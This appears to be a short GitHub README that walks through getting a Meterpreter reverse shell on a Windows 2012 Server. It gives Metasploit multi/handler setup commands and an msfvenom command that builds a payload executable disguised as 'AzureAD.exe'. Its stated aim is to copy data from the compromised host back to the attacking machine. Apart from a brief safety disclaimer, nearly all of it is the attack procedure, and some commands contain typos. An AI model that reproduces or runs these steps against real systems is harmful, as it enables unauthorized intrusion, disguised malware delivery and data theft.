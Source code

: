 # theperfectreverseshell
This is a demonstration of obtaining a reverse shell on a Windows 2012 Server. The aim of obtaining access to view and copy the output produced by downloading certain tools to the compromised host to the attacking machine and then run a script to compare the produced data against a pre-defined list of data

### The following steps are provided to obtain a reverse shell on a Windows 2012 Server. The steps performed, were carried out in a secure environment. Please ensure, if you do choose to replicate this activity that you either do so as qualified practitioner or that you have a qualified practitioner with you.

# Step 1 : Create a reverse handler using metasploit. To do so, you run the following commands -
  -1.1 - sudo msfconsole, "\n"
  -1.2 - use multi/handler
  -1.3 - configure payload (preferable : windows/meterpreter/rerverse_tcp)
  -1.4 - ensure that the "LHOST" and "LPORT" settings are correctly configured. You may do so, by running : set LHOST <IP Address of Host> and the set LPORT <port you would like to listen on>
  -1.5 - once this has been completed, you may run : run -j or exploit -j at the msf prompt. This will create a persistent listener that will exit once you tell it to, it a disconnect from the client(victim). After doing so, you should see the following screen :
  
  ![image](https://user-images.githubusercontent.com/101802030/225633287-455e3c11-18a9-4bb8-b29f-a2d65dc23c86.png)

  
  
  -2.1 - (On a Kali Linux machine) sudo msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=<IP of Address of host> LPORT=<local port to listen on> -f <format> exe -o <output> ~/Downloads/AzureAD.exe
  


